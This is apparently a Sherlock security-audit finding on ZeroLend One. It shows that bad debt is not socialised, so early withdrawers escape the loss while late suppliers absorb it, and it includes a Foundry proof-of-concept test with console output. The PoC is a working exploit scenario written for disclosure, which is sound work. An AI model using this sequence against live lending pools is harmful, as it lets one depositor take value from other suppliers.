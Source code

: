 Joyous Cedar Tortoise

High

# When bad debt is accumulated, the loss is not shared amongst all suppliers, instead the last to withdraw will experience a huge loss

### Summary

When bad debt is accumulated, it should be socialised amongst all suppliers.

The issue is that the protocol does not do this, instead only the last users to withdraw funds will feel the effects of the bad debt.

If a pool experiences bad debt, the first users to withdraw will experience 0 loss, while the last to withdraw will experience a severe loss.

### Root Cause
The [withdrawn](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/pool/logic/SupplyLogic.sol#L106) assets is calculated as `shares * liquidityIndex` which does not take into account bad debt

This means that even if bad debt accrues, the first users to withdraw will be able to withdraw their shares to assets at a good rate, leaving the last users with all the loss. 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

**This attack path is shown in the PoC:**

1. User A supplies 50 ETH to the pool
2. User B supplies 50 ETH to the pool
3. A bad debt liquidation occurs, so the liquidator only repaid 64 ETH out of the 100 ETH
4. User A is still able to withdraw their 50 ETH
5. User B is left with less than 14 ETH able to be withdrawn

### Impact

Huge fund loss for the suppliers last to withdraw

Early withdrawers effectively steal from the late withdrawers

### PoC

Add the following test to `PoolLiquidationTests.t.sol`

```solidity
function test__BadDebtLiquidationIsNotSocialised() external {
    // Setup users
    address supplierOfTokenB = address(124343434);
    address liquidator = address(8888);
    _mintAndApprove(alice, tokenA, 1000 ether, address(pool)); 
    _mintAndApprove(bob, tokenB, 50 ether, address(pool)); 
    _mintAndApprove(supplierOfTokenB, tokenB, 50 ether, address(pool)); 
    _mintAndApprove(liquidator, tokenB, 100 ether, address(pool)); 
    console.log("bob balance before: %e", tokenB.balanceOf(bob));
    // alice supplies 134 ether of tokenA
    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, 268 ether, 0); 
    vm.stopPrank();

    // bob supplies 50 ether of tokenB
    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, 50 ether, 0); 
    vm.stopPrank();

    // supplierOfTokenB supplies 50 ether of tokenB
    vm.startPrank(supplierOfTokenB);
    pool.supplySimple(address(tokenB), supplierOfTokenB, 50 ether, 0); 
    vm.stopPrank();

    // alice borrows 100 ether of tokenB
    vm.startPrank(alice);
    pool.borrowSimple(address(tokenB), alice, 100 ether, 0); 
    vm.stopPrank();

    // Drops the collateral price to make the position liquidatable
    // the drop is large enough to make the position in bad debt
    oracleA.updateAnswer(5e7); 

    // liquidator liqudiates the position
    // note that he takes all of alice's collateral
    vm.startPrank(liquidator);
    pool.liquidateSimple(address(tokenA), address(tokenB), pos, 64 ether);

    // bob sees that the position is in bad debt and quickly withdraws all that he supplied
    // bob does not experience any loss from the bad debt
    vm.startPrank(bob);
    pool.withdrawSimple(address(tokenB), bob, 50 ether, 0);

    // supplierOfTokenB tries to withdraw his funds but it reverts, since there is none left
    vm.startPrank(supplierOfTokenB);
    vm.expectRevert();
    pool.withdrawSimple(address(tokenB), supplierOfTokenB, 50 ether, 0);

    // the maximum amount supplierOfTokenB can withdraw is 13 ether of tokenB
    // since that is all that is left in the pool
    pool.withdrawSimple(address(tokenB), supplierOfTokenB, 13 ether, 0);

    // log the final state
    console.log("The following is the final state");

    // show that there is no more tokenB left in the pool after bob withdrew everything
    uint256 PoolBalanceOfB = tokenB.balanceOf(address(pool));
    console.log("Remaining balance of tokenB in the pool = %e", PoolBalanceOfB);

    // show that bob got back the 50 ether he deposited
    uint256 BobBalanceOfB = tokenB.balanceOf(bob);
    console.log("bob's balance of tokenB = %e", BobBalanceOfB);

    // show that supplierOfTokenB only got back 13 ether of tokenB
    uint256 SupplierBalanceOfB = tokenB.balanceOf(supplierOfTokenB);
    console.log("SupplierBalanceOfB balance of tokenB = %e", SupplierBalanceOfB);

    uint256 aliceCollateral = pool.getBalance(address(tokenA), alice, 0);
    console.log("aliceCollateral =%e ", aliceCollateral);
  }
```
**Console output:**

```bash
Ran 1 test for test/forge/core/pool/PoolLiquidationTests.t.sol:PoolLiquidationTest
[PASS] test__BadDebtLiquidationIsNotSocialised() (gas: 1089597)
Logs:
  The following is the final state
  Remaining balance of tokenB in the pool = 8.09523809523809524e17
  bob's balance of tokenB = 5e19
  SupplierBalanceOfB balance of tokenB = 1.3e19
  aliceCollateral =0e0 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.34ms (1.66ms CPU time)

Ran 1 test suite in 11.14ms (4.34ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Socialise the loss among all depositors